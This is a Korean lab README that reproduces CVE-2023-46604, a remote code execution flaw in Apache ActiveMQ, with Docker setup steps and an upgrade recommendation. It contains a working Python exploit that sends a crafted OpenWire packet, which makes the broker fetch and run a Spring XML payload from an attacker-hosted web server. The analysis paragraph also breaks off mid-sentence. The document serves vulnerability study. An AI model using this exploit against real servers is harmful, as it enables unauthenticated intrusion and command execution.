






# CVE-2023-46604

---

Contributors

- 김대원(@DaewonKim515)
  
  

### 취약점 요약 (Apache ActiveMQ Deserialization of Untrusted Data Vulnerability)

---

Apache ActiveMQ는 Java로 작성된 오픈 소스 메시지 지향 미들웨어(MOM)로, 애플리케이션 간의 통신을 지원하며 OpenWire, STOMP 등 다양한 프로토콜을 제공한다. 이 중 Java OpenWire 프로토콜 마샬러에서 신뢰할 수 없는 데이터의 역직렬화(Deserialization)로 인한 원격 코드 실행(RCE) 취약점(CVE-2023-46604)이 발견되었다. 네트워크 접근 권한을 확보한 원격 공격자는 OpenWire 패킷 내의 직렬화된 클래스 타입을 조작하여, 브로커 또는 클라이언트가 내부 클래스 경로에 존재하는 임의의 클래스를 인스턴스화하도록 강제할 수 있다. 결과적으로 공격자는 인증 과정을 우회하여 대상 시스템에서 임의의 셸 명령어를 실행할 수 있게 된다. 

### 취약점 분석
---

본 취약점은 OpenWire 마샬러가 수신된 데이터를 역직렬화할 때, 객체의 타입 안전성을 검증하지 않아 발생함.
에러 응답을 처리하는 객체가 역직렬화될 때, 내부적으로 BaseDataStreamMarshaller.createThrowable 메서드가 호출됨
패치 이전 버전에서는 이 베서드가 수신된 문자열 className을 기반으로 클래스를 로드할 

### 취약 조건

---

- Apache ActiveMQ 5.18.0~5.18.3 이전 버전, 5.17.0~5.17.6 이전 버전, 5.16.0~5.16.7 이전 버전, 0~5.15.16 이전 버전 사용

- OpenWire 프로토콜 포트에 접근 가능해야함
  
  

### 환경 구성

---

- eclipse-temurin:11-jre-jammy (Ubuntu 22.04, OpenJDK 11)

- Apache ActiveMQ 5.18.2
  
  

### 취약점 재현

---

1. 컨테이너 실행
   - 다음 명령으로 컨테이너 실행
     ```shell
     docker compose up -d --build
     ```
   - docker ps로 컨테이너 상태 확인
     ```shell
 	 docker ps
     ```
	 
2. 환경 확인
   - http://localhost:8161 접속
   - admin / admin으로 로그인 후 환경 구축 확인
     
3. 공격 수행
   - poc.xml 생성
     ```xml
	 <?xml version="1.0" encoding="utf-8"?>
     <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
         <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
             <constructor-arg>
                 <list>
                     <value>touch</value>
                     <value>/tmp/hacked_by_me</value>
                 </list>
             </constructor-arg>
         </bean>
     </beans>
   ```
   - ActiveMQ 컨테이너가 poc.xml파일을 다운로드할 수 있도록 호스트 환경에서 웹 서버 오픈
   
   ```shell
   python -m http.server 8000
   ```
   
   
   - poc.py 생성
   ```python
    import io
	import socket
	import sys

	def main(ip, port, xml):
		classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
		socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		socket_obj.connect((ip, port))

		with socket_obj:
			out = socket_obj.makefile('wb')
			out.write(int(32).to_bytes(4, 'big'))
			out.write(bytes([31]))
			out.write(int(1).to_bytes(4, 'big'))
			out.write(bool(True).to_bytes(1, 'big'))
			out.write(int(1).to_bytes(4, 'big'))
			out.write(bool(True).to_bytes(1, 'big'))
			out.write(bool(True).to_bytes(1, 'big'))
			out.write(len(classname).to_bytes(2, 'big'))
			out.write(classname.encode('utf-8'))
			out.write(bool(True).to_bytes(1, 'big'))
			out.write(len(xml).to_bytes(2, 'big'))
			out.write(xml.encode('utf-8'))
			out.flush()
			out.close()

	if __name__ == "__main__":
		if len(sys.argv) != 4:
			print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
				  "http://[공격자 IP 주소]:8000/poc.xml")
			exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
   ```
   
   - 공격자 IP주소를 알아내기 위해 ipconfig 수행
   
   - http 서버가 실행된 쉘 이외의 쉘에서 poc.py를 실행하여 공격 수행
   ```python
   python3 poc.py 127.0.0.1 61616 http://[공격자 IP 주소]:8000/poc.xml
   ```
   
   - 웹서버가 실행된 쉘에서 "GET /poc.xml HTTP/1.1" 200 -확인
   - 이후 docker환경 내에 접속하여 성공적으로 폴더가 생성되었는지 확인
   ```shell
   docker compose exec activemq bash
   ls -al /tmp/hacked_by_me
   ```
   - 공격전
   
   - 공격후
   
   
4. 환경 종료
   - docker compose down으로 환경을 종료한다.
   ```shell
   docker compose down
   ```
   
### 대응 방안

---

운영 중인 ActiveMQ 브로커 및 클라이언트를 취약점이 패치된 5.15.16, 5.16.7, 5.17.6 또는 5.18.3 이상의 버전으로 업그레이드 해야합니다.
